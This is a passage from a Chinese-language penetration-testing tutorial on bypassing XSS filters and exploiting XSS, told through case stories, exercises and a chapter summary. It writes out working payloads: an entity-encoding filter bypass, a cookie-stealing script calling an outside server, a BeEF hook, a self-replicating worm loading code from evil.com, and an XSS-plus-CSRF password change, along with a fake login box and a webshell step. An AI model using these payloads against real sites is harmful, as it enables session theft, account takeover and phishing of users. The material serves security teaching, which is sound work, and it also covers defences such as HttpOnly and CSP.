不过那是高级篇的内容了，
我们后面再讲。

---

## 📚 案例讲解

### 案例1：某论坛存储型XSS绕过实战

小王做渗透测试，
目标是一个论坛。

他在评论区测试XSS，
输入`<script>alert(1)</script>`，
结果被过滤了，
显示"内容包含非法字符"。

他试了试``，
也被过滤了。

他仔细看了看，
发现只要有`on`开头的都被过滤了。

那怎么办？

他想了想，
试了试大小写：
```html

```
还是被过滤了。

看来大小写不行，
WAF不区分大小写地过滤了`onerror`。

那换个事件？
他试了试`onload`，也不行。
试了试`onclick`，也不行。
看来所有`on`开头的都被过滤了。

那不用事件呢？
他想到了`javascript:`伪协议：

```html
<a href="javascript:alert(1)">点我</a>
```
提交，成功了！

但是需要用户点击，
不够方便。

有没有自动执行的？

他又想到了`<svg>`标签的一些特殊用法，
或者... 等等，
如果过滤的是`on`，
那能不能在`on`中间插点什么？

他试了试实体编码：
```html

```

因为属性值里的实体会被解码，
`&#110;`是`n`，
解码后就是`onerror`。

提交，
成功了！
弹窗出来了！

WAF匹配的是原文的`o&#110;error`，
匹配不到`onerror`，
但是浏览器会解码，
所以能执行。

> 经验之谈：
> **编码绕过是XSS绕过的神器。
> 特别是HTML实体编码，
> 在属性值里非常好用。
>
> 遇到过滤不要慌，
> 多试试各种编码，
> 说不定就绕过了。**

### 案例2：BeEF Hooked浏览器控制演示

老K给团队新人演示BeEF的使用。

他先在Kali里启动BeEF：
```bash
beef-xss
```

然后打开BeEF的管理界面：
`http://127.0.0.1:3000/ui/panel`

用户名密码都是`beef`。

然后他在测试页面里插了Hook代码：
```html
<script src="http://192.168.1.100:3000/hook.js"></script>
```

用另一个浏览器访问这个页面，
BeEF面板上立刻就出现了一个新的目标。

老K开始演示：

"大家看，
这就是被Hook的浏览器。
左边是目标列表，
右边是可以用的模块。"

他点开「Commands」选项卡：
"这里有上百个模块，
分成很多类别。"

他先演示信息收集：
"先看看浏览器信息，
User-Agent、插件、Cookie、
屏幕大小、系统信息...
全都能看到。"

然后演示内网扫描：
"还能扫内网，
看看目标在内网里能访问什么。
我来扫一下192.168.1.0/24网段的80端口。"

过了一会儿，
扫描结果出来了，
发现了好几台开着80端口的机器。

"你看，
这就是XSS的威力。
虽然只是一个XSS，
但是可以把用户的浏览器当成跳板，
打内网。"

然后他又演示了社会工程学模块：
"这个模块是弹一个假的登录框，
我来试试。"

他选了「Pretty Theft」模块，
点「Execute」。

目标浏览器上立刻弹出了一个Facebook风格的登录框，
做得非常逼真。

"如果用户信了，
输入账号密码，
密码就会发回来。"

最后老K总结：
"BeEF功能非常强大，
是做XSS利用的神器。
但是大家记住，
只能在授权测试的时候用，
不能乱来。"

新人们看得目瞪口呆，
原来XSS能玩出这么多花样。

### 案例3：通过XSS获取管理员权限

小张打CTF，
遇到一个题目，
是一个博客系统。

他测试了一下，
评论区有存储型XSS。

但是这有什么用呢？
题目要求是拿到管理员的密码。

小张想了想：
"有存储型XSS，
我可以偷管理员的Cookie，
然后用管理员身份登录后台。"

说干就干。

他先写了一个偷Cookie的Payload：
```html
<script>
new Image().src = 'http://我的服务器/steal.php?c=' + document.cookie;
</script>
```

但是评论区有长度限制，
只能输入50个字符。

这个太长了，
怎么办？

他想到了外部脚本：
```html
<script src=http://x.xx/1.js></script>
```

这个短多了，
只有30多个字符。

他在自己的服务器上放了一个`1.js`，
内容就是偷Cookie的代码。

然后他在评论区提交了这个Payload。

接下来就是等管理员审核评论。

过了一会儿，
他的服务器日志里出现了一条请求，
带着Cookie！

小张拿到了管理员的Cookie，
然后用EditThisCookie导入浏览器，
刷新页面，
成功登录了管理员账号！

进了后台，
他发现后台有个模板编辑功能，
可以改PHP模板。
那还等什么，
直接写个一句话木马进去，
就拿到Shell了。

一个存储型XSS，
最后变成了GetShell。

> 思路总结：
> **XSS → 偷管理员Cookie → 登录后台 → 拿Shell**
>
> 这是非常经典的一条攻击链。
> 不要觉得XSS危害小，
> 只要利用得当，
> XSS也能直接拿服务器权限。

### 案例4：XSS蠕虫是怎么传播的

老周给大家讲XSS蠕虫的原理。

"什么是XSS蠕虫？
简单说，
就是一段能自我复制的XSS代码。
一个用户中招了，
他的账号会自动发带XSS的内容，
其他用户看到了，
又会中招，
然后继续传播...
就像病毒一样，
一传十，十传百。"

"最著名的就是2005年的MySpace蠕虫，
几小时之内感染了上百万用户。"

"那XSS蠕虫是怎么实现的呢？
其实原理很简单：
1. 偷到用户的Cookie/Token
2. 用AJAX调用发帖的接口
3. 帖子内容里带上XSS代码
4. 别人看到帖子，又中招
5. 继续传播..."

"我给大家写个最简单的例子："

```javascript
// 蠕虫代码
(function worm() {
    // 1. 获取CSRF Token之类的
    var token = getCsrfToken();
    
    // 2. 构造发帖内容，带上蠕虫代码
    var content = '我发现了一个好玩的东西！\n' + 
                  '<script src="http://evil.com/worm.js"></script>';
    
    // 3. 发送AJAX请求发帖
    var xhr = new XMLHttpRequest();
    xhr.open('POST', '/post');
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('content=' + encodeURIComponent(content) + '&token=' + token);
})();
```

"就是这么简单。
一个用户中招了，
他的账号就会自动发一条带XSS的帖子，
别人看到了，
又会中招，
然后继续发...
传播速度非常快。"

"当然真实的蠕虫会更复杂，
还要考虑去重、隐藏、
传播最快的路径等等。
但是核心原理就是这样。"

"为什么讲这个？
一是让大家知道XSS的危害有多大，
二是提醒大家，
做安全防御的时候，
存储型XSS是高危中的高危，
一定要重视！"

### 案例5：XSS结合CSRF的组合拳

小李做渗透测试，
目标是一个电商网站。

他找到了一个反射型XSS，
在搜索页面。

但是反射型XSS需要用户点击，
而且管理员不怎么会去点搜索页面。

怎么利用呢？

他又发现了一个CSRF漏洞，
修改用户密码的接口没有Token验证。

"有了！"
小李想到了一个组合拳。

他构造了一个URL：
```
http://shop.com/search?q=<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', '/change-password', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('newpass=123456');
</script>
```

（当然真实情况下要URL编码一下）

然后他把这个链接发给了管理员，
说"你看这个搜索结果是不是有问题？"

管理员点了一下，
页面跳转到搜索结果，
同时XSS脚本执行了，
往修改密码的接口发了一个请求，
把管理员的密码改成了`123456`。

因为请求是从管理员的浏览器发的，
带着管理员的Cookie，
所以CSRF成功了。

然后小李就用新密码登录了管理员账号。

一个反射型XSS + 一个CSRF，
就拿下了管理员权限。

> 老K说：
> **"单个漏洞可能危害不大，
> 但是把多个漏洞组合起来，
> 威力就大了。
>
> 做渗透测试就是这样，
> 要有组合漏洞的思路，
> 把小漏洞串成大漏洞。
>
> 思路很重要，
> 不要局限于单个漏洞本身。"**

---

## ✏️ 课后习题

### 选择题

1. 以下哪个标签不能用来触发XSS？
   - A. ``
   - B. `<svg>`
   - C. `<div>`
   - D. `<script>`

2. 以下哪个事件是页面加载时自动触发的？
   - A. `onclick`
   - B. `onmouseover`
   - C. `onload`
   - D. `onkeydown`

3. 如果过滤了`<script>`标签，以下哪个方法不能绕过？
   - A. 用``标签+onerror事件
   - B. 用`<svg>`标签+onload事件
   - C. 用大小写混合`<Script>`
   - D. 用`<p>`标签

4. HTML实体编码在哪个位置会被解码？
   - A. 标签名中
   - B. 属性名中
   - C. 属性值中
   - D. 任何位置

5. 以下哪个是HTML实体编码的正确写法？
   - A. `%61`
   - B. `&#97;`
   - C. `\u0061`
   - D. `\x61`

6. 如果过滤了空格，以下哪个不能代替空格？
   - A. 换行符
   - B. 制表符
   - C. 注释`/**/`
   - D. 逗号

7. XSS偷Cookie的原理是？
   - A. 利用浏览器漏洞
   - B. 利用JavaScript读取document.cookie并发送
   - C. 利用数据库漏洞
   - D. 利用中间人攻击

8. 以下哪个设置可以防止XSS偷Cookie？
   - A. HttpOnly
   - B. Secure
   - C. SameSite
   - D. Path

9. BeEF是什么？
   - A. 一个数据库
   - B. 一个浏览器攻击框架
   - C. 一个操作系统
   - D. 一个Web服务器

10. CSP的作用是？
    - A. 加速网页加载
    - B. 防止XSS攻击
    - C. 美化网页
    - D. 提高服务器性能

### 填空题

1. XSS的三种绕过思路是：______、______、______。

2. 除了`<script>`，请再写出三个可以执行JS的标签：______、______、______。

3. HTML实体编码中，`a`的十进制编码是______，十六进制编码是______。

4. 偷Cookie的核心JavaScript代码是______。

5. 防止XSS偷Cookie的Cookie属性是______。

6. BeEF的全称是______。

7. CSP的全称是______。

8. XSS钓鱼的两种方式是：______和______。

9. XSS键盘记录监听的事件是______。

10. 如果过滤了括号，可以用______代替。

### 简答题

1. XSS的标签过滤有哪些绕过方法？

2. XSS的关键字过滤有哪些绕过方法？

3. 什么是HTML实体编码？怎么用来绕过XSS过滤？

4. XSS能做什么？（至少说5种利用方式）

5. 什么是XSS钓鱼？为什么它这么有效？

6. 什么是会话劫持？原理是什么？

7. 什么是BeEF？它有什么功能？

8. 什么是CSP？它怎么防XSS？

9. 如果过滤了尖括号`< >`，还有办法XSS吗？举例说明。

10. XSS蠕虫的原理是什么？

### 实操题

1. **标签绕过练习：**
   - 打开DVWA，XSS (Stored)模块，难度Medium
   - 试试能不能绕过过滤
   - 至少用3种不同的标签触发XSS
   - 记录下成功的Payload

2. **编码绕过练习：**
   - 打开DVWA，XSS (Stored)模块，难度High
   - 试试用HTML实体编码绕过
   - 试试用Unicode编码绕过
   - 记录下成功的Payload和方法

3. **偷Cookie练习：**
   - 在DVWA的存储型XSS里插一个偷Cookie的Payload
   - 自己搭一个简单的接收页面（或者用XSS平台）
   - 用另一个浏览器访问，看看能不能收到Cookie
   - 试试用收到的Cookie能不能登录
   - 理解会话劫持的原理

4. **XSS钓鱼练习：**
   - 写一个简单的假登录框的JS脚本
   - 在DVWA的存储型XSS里测试
   - 看看能不能逼真地显示出来
   - 试试输入账号密码，看看能不能接收到
   - 理解XSS钓鱼的原理

5. **BeEF练习：**
   - 在Kali里安装并启动BeEF
   - 在测试页面里插入Hook代码
   - 用另一个浏览器访问，看看BeEF里能不能看到
   - 试试几个简单的模块（比如信息收集、弹窗）
   - 了解BeEF的基本使用

---

## 📝 本章小结

这一章，
我们学习了XSS的绕过技巧和利用方式。

总结一下重点：

1. **标签过滤绕过**
   - 不用`<script>`，用其他标签（img、svg、body、input...）
   - 大小写绕过
   - 双写绕过
   - 换行/制表符绕过

2. **事件过滤绕过**
   - 事件有几十个，换着用
   - 大小写绕过
   - 插入换行/空字节

3. **关键字过滤绕过**
   - 拼接字符串（eval('al'+'ert(1)')）
   - 编码绕过（Unicode、八进制、十六进制、base64）
   - String.fromCharCode
   - 数组访问（window['alert']）

4. **编码绕过**
   - HTML实体编码（属性值中有效）
   - URL编码
   - JavaScript编码
   - 多重编码

5. **特殊字符绕过**
   - 过滤尖括号：利用属性位置，闭合引号加事件
   - 过滤引号：不用引号、用反引号、用String.fromCharCode
   - 过滤括号：用反引号、用throw+onerror
   - 过滤空格：用换行、制表符、注释、斜杠

6. **XSS利用方式**
   - 钓鱼攻击：假登录框、跳转到钓鱼网站
   - 键盘记录：监听keydown事件
   - 会话劫持：偷Cookie冒充用户
   - 内网探测：把浏览器当跳板
   - 网页篡改：改页面内容
   - 刷广告/刷流量
   - 获取浏览器信息

7. **BeEF框架**
   - 浏览器攻击框架
   - 功能强大，上百个模块
   - Hook浏览器后可以远程控制

8. **CSP内容安全策略**
   - 限制脚本、图片、样式等的来源
   - 是防御XSS的重要手段
   - 但是也有绕过方法（高级篇讲）

> 最后送你一句话：
> **"XSS的精髓在于绕过，
> 绕过的精髓在于脑洞。
> 不要被思维定式限制住，
> 多想想有没有其他方法。
>
> 方法总比困难多，
> 只要你脑洞够大，
> 就没有绕不过的过滤。"**

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day022-basic-XSS基础)
- [➡️ 下一章：---](/redteam/day024-basic-XSS高级)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
